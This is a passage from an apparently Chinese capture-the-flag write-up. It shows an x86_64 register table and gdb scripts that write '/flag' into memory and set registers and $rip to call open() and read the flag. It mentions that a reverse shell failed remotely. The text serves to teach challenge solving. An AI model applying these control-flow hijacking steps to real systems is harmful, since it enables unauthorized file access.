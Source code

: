 ```c
    {RSP, 8},
    {R8, 8},
    {R9, 8},
    {R10, 8},
    {R11, 8},
    {R12, 8},
    {R13, 8},
    {R14, 8},
    {R15, 8},
    {RIP, 8},
    {EFLAGS, 4},
    {CS, 4},
    {SS, 4},
    {DS, 4},
    {ES, 4},
    {FS, 4},
    {GS, 4},
};

#endif /* __x86_64__ */
```

于是考虑，不允许gdb修改寄存器，但是题目本身运行的时候可以修改， 我们只需要设置好参数, 即设置好传参寄存器，然后设置好$rip即可，试了下gdb的set指令，可以运行。

那么对于字符串，我们可以跑循环去设置，

```
set $str="...."
set $len=xx # len(str)
set $i=0
while($i<$len)
  set {char}$addr=$str[$i]
  set $i++
  set $addr++
end 
set $target=$start4-$len
x/s $target
```

于是直接得到这么一串gdb指令。这时候仍然考虑反弹shell， 但是本地docker内ok， 远程不行，猜测不出网，

于是使用 open read， 最后x/s 即可打印。

```
set $start1=xxx
set $start2=$start1+8

set $i=0
set $len=5
set $str="/flag"
while($i<$len)
  set {char}$start1=$str[$i]
  set $i++
  set $start1++
end 
set $flag=$start1-$len
x/s $flag
set $buf=$start2

set {void*}$rsp=main
b main 

set $rdi=$flag
set $rsi=0
set $rdx=0
set $rip=open
```